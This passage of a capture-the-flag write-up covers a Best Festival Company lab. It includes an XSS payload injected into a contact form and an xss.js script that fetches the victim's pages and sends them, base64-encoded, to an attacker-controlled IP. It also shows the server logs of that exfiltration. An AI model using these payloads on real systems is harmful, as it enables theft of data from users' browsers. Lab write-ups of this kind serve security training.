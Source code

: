 ![Web Thehubuat Index](web_thehubuat_index.webp){: width="1200" height="600"}

- `http://thehub-int.bestfestivalcompany.thm/`: Where we see a login form.

![Web Thehubint Index](web_thehubint_index.webp){: width="1200" height="600"}

- `http://npm-registry.bestfestivalcompany.thm/`: Where we find a `Verdaccio` installation, which is basically a private `Node.js` registry.

![Web Npmregistry Index](web_npmregistry_index.webp){: width="1200" height="600"}

### First Flag

Testing the contact form at `http://thehub-uat.bestfestivalcompany.thm:3000/` with an `XSS` payload like `<script src="http://10.11.72.22/xss.js"></script>`, we observe that it is vulnerable as we get a hit for `xss.js` on our web server.

![Web Thehubuat Xss](web_thehubuat_xss.webp){: width="1200" height="600" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.165.202 - - [26/Dec/2024 15:29:04] code 404, message File not found
10.10.165.202 - - [26/Dec/2024 15:29:04] "GET /xss.js HTTP/1.1" 404 -
```

While it is not possible to steal the cookies, we can still use this `XSS` vulnerability to enumerate the web server where our `XSS` payload runs by using a payload to fetch pages and send the responses back to us.

Creating the `xss.js` file with such a payload and starting our enumeration with the index.

```js
async function exfil() {
        const response = await fetch('/');
        const text = await response.text();
        await fetch(`http://10.11.72.22/?data=${btoa(text)}`);
}

exfil();
```
{: file="xss.js" }

As we can see, the next time our script is fetched, it is followed by a request that includes the response for the request to the index, **base64** encoded.

```console
10.10.165.202 - - [26/Dec/2024 15:37:03] "GET /xss.js HTTP/1.1" 200 -
10.10.165.202 - - [26/Dec/2024 15:37:04] "GET /?data=PCFE...sPgo= HTTP/1.1" 200 -
```

Decoding the response we got from **base64**, we see links for two new endpoints: `/contact-responses` and `/wiki`.

```html
<div class="contact-responses">
    <a href="/contact-responses" class="inside btn-enlarge">
        ...
        <p class="" >View Contact Us Responses</p>
    </a>
</div>
<div class="wiki ">
    <a href="/wiki" class="inside btn-enlarge">
        ...
        <p class="">Go to Wiki</p>
    </a>
</div>
```

